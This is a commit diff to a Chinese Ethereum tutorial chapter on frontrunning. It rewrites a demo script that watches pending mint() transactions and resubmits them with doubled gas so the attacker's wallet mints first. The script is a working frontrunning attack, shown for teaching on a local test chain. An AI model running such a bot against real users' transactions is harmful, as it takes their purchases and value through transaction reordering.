

Before and after one commit to WTFAcademy/WTF-Ethers, a Markdown page: 23_Frontrun/readme.md, 2 parts joined by grey strips. Shown: that part at 96% size. Rendered like a GitHub page; pictures changed too: 23_Frontrun/img/23-2.png, 23_Frontrun/img/23-3.png, 23_Frontrun/img/23-4.png (deleted); blank space fills up the shorter version.

Commit message:
update Chapter FrontRun

````diff
--- a/23_Frontrun/readme.md
+++ b/23_Frontrun/readme.md
@@ -37,8 +37,8 @@ contract FreeMint is ERC721 {
 
     // 铸造函数
     function mint() external {
+        totalSupply++;
         _mint(msg.sender, totalSupply); // mint
-        totalSupply++;
     }
 }
 ```
@@ -101,41 +125,37 @@ anvil
 
     ```js
-    // 打印原始交易
-    console.log("raw transaction")
-    console.log(tx);
-    ```
-    ![](./img/23-3.png)
-
-6. 打印解码后的交易详情，可以看到该交易调用的是`mint()`函数。
-
-    ```js
-    // 打印交易解码后结果
-    let parsedTx = iface.parseTransaction(tx)
-    console.log("pending交易详情解码：")
-    console.log(parsedTx);
-    ```
-    ![](./img/23-4.png)
-
-7. 构建抢跑交易`txFrontrun`，原交易的目标地址`to`，发送以太坊数额`value`和发送数据`data`保持不变，然后将`gas`拉高：`maxPriorityFeePerGas` 和 `maxFeePerGas` 改为原先的 1.2 倍，`gasLimit`最高设为原先的 2 倍。然后通过 `sendTransaction()` 将交易发送到链上，完成抢跑！
-
-    ```js
-    // 构建抢跑tx
-    const txFrontrun = {
-        to: tx.to,
-        value: tx.value,
-        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 2n,
-        maxFeePerGas: tx.maxFeePerGas * 2n,
-        gasLimit: tx.gasLimit * 2,
-        data: tx.data
+    const frontRun = async () => {
+    provider.on('pending', async (txHash) => {
+        const tx = await provider.getTransaction(txHash)
+        if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
+            console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}\n准备抢先交易`)
+            const frontRunTx = {
+                to: tx.to,
+                value: tx.value,
+                maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
+                maxFeePerGas: tx.maxFeePerGas.mul(2),
+                gasLimit: tx.gasLimit.mul(2),
+                data: tx.data
+            }
+            const aimTokenId = (await contractFM.totalSupply()).add(1)
+            console.log(`即将被mint的NFT编号是:${aimTokenId}`)//打印应该被mint的nft编号
+            const sentFR = await wallet.sendTransaction(frontRunTx)
+            console.log(`正在frontrun交易`)
+            const receipt = await sentFR.wait()
+            console.log(`frontrun 交易成功,交易hash是:${receipt.transactionHash}`)
+            console.log(`铸造发起的地址是:${tx.from}`)
+            console.log(`编号${aimTokenId}NFT的主人是${await contractFM.ownerOf(aimTokenId)}`)//刚刚mint的nft持有者并不是tx.from
+            console.log(`编号${aimTokenId.add(1)}的NFT的主人是:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from被wallet.address抢跑，mint了下一个nft
+            console.log(`铸造发起的地址是不是对应NFT的主人:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//比对地址，tx.from被抢跑
+            //检验区块内数据结果
+            const block = await provider.getBlock(tx.blockNumber)
+            console.log(`区块内交易数据明细:${block.transactions}`)//在区块内，后发交易排在先发交易前，抢跑成功。
+        }
+    })
     }
-    // 发送抢跑交易
-    var txResponse = await wallet.sendTransaction(txFrontrun)
-    console.log(`正在frontrun交易`)
-    await txResponse.wait()
-    console.log(`frontrun 交易成功`)
     ```
 
-    ![](./img/23-5.png)
+    ![](./img/23-3.png)
 
 ## 总结
 
````
Also changed, not shown: other parts of 23_Frontrun/readme.md (+51 -27 lines), 2 other files.
